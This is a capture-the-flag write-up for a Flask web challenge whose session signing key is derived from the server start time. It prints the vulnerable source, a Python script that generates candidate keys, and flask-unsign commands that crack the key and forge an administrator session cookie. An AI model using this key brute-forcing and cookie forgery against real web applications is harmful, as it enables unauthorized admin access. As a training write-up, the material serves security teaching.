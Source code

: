 

http://chal.competitivecyber.club:9999/

### Solution ###

We are given the source code of the website:

```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, jsonify, abort, redirect, session
import uuid
import os
from datetime import datetime, timedelta
import hashlib
app = Flask(__name__)
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
app.config['PERMANENT_SESSION_LIFETIME'] = timedelta(seconds=300)
flag = os.environ.get('FLAG', "flag{this_is_a_fake_flag}")
secret = uuid.UUID('31333337-1337-1337-1337-133713371337')
def is_safe_username(username):
    """Check if the username is alphanumeric and less than 20 characters."""
    return username.isalnum() and len(username) < 20
@app.route('/', methods=['GET', 'POST'])
def main():
    """Handle the main page where the user submits their username."""
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        password = request.values['password']
        if not is_safe_username(username):
            return render_template('index.html', error='Invalid username')
        if not password:
            return render_template('index.html', error='Invalid password')
        if username.lower().startswith('admin'):
            return render_template('index.html', error='Don\'t try to impersonate administrator!')
        if not username or not password:
            return render_template('index.html', error='Invalid username or password')
        uid = uuid.uuid5(secret, username)
        session['username'] = username
        session['uid'] = str(uid)
        return redirect(f'/user/{uid}')
@app.route('/user/<uid>')
def user_page(uid):
    """Display the user's session page based on their UUID."""
    try:
        uid = uuid.UUID(uid)
    except ValueError:
        abort(404)
    session['is_admin'] = False
    return 'Welcome Guest! Sadly, you are not admin and cannot view the flag.'
@app.route('/admin')
def admin_page():
    """Display the admin page if the user is an admin."""
    if session.get('is_admin') and uuid.uuid5(secret, 'administrator') and session.get('username') == 'administrator':
        return flag
    else:
        abort(401)
@app.route('/status')
def status():
    current_time = datetime.now()
    uptime = current_time - server_start_time
    formatted_uptime = str(uptime).split('.')[0]
    formatted_current_time = current_time.strftime('%Y-%m-%d %H:%M:%S')
    status_content = f"""Server uptime: {formatted_uptime}<br>
    Server time: {formatted_current_time}
    """
    return status_content
if __name__ == '__main__':
    app.run("0.0.0.0", port=9999)
```
After taking a look at the code we can see that we need to become admin to get the flag.
The authentication mechanism is quite common it depends of flask session tokens.
We can also notice the creation of the key to sign these tokens.
```
server_start_time = datetime.now()
server_start_str = server_start_time.strftime('%Y%m%d%H%M%S')
secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
app.secret_key = secure_key
```
The key depends on the time the server was started.
We are also given a /status endpoint which gives us the difference between the current time and the time between the server's starting time however when i solved the challenge i totally missed this endpoint and decided to use a bruteforce approach.
As the server was restated every 10 minute my bruteforce approach worked.
The idea is to create a wordlist of all the keys possible from my current time we keep subtracting a number and writing it into a file.
Here is my exploit to do so:
```python
from datetime import datetime, timedelta
import hashlib

server_start_time = 20240921183020 # This was my current time when i solved the challenge you can change it to your current time

for i in range (0,10**4):
  server_start_str = server_start_time - i
  secure_key = hashlib.sha256(f'secret_key_{server_start_str}'.encode()).hexdigest()
  f = open('hash-time-wordlist.txt','a')
  f.write(secure_key+'\n')
  f.close()
```

This code creates a wordlist which we can use to bruteforce the cookie for secret using flask-usign:
```bash
flask-unsign --unsign --no-literal-eval --wordlist hash-time-wordlist.txt -c eyJ1aWQiOiJmNmVlODM5ZS02OWViLTVmMmItODFkZS1hOGZkNWY3ODQ4MDEiLCJ1c2VybmFtZSI6ImFzZCJ9.Zu8Q_g.lmsoSdhv5xXrTdLaVXf7uKb0uoA

[*] Session decodes to: {'uid': 'f6ee839e-69eb-5f2b-81de-a8fd5f784801', 'username': 'asd'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 128 attempts1307a80300c7
b'512e21c1f512b862e6784447f626474f5ff722d6e9b0d89da73c3f17de248cdf'
```
This gives us the secret we need now we can sign a token and get the flag.
```bash
flask-unsign --sign --cookie "{'is_admin': True, 'uid': '02ec19dc-bb01-5942-a640-7099cda78081', 'username': 'administrator'}" --secret '512e21c1f512b862e6784447f626474f5ff722d6e9b0d89da73c3f17de248cdf'

eyJpc19hZG1pbiI6dHJ1ZSwidWlkIjoiMDJlYzE5ZGMtYmIwMS01OTQyLWE2NDAtNzA5OWNkYTc4MDgxIiwidXNlcm5hbWUiOiJhZG1pbmlzdHJhdG9yIn0.ZvDtxA.7HytpWHlG4kE9S-w3Ib7fStZZpI
```




![[Pasted image 20240926165933.png]]


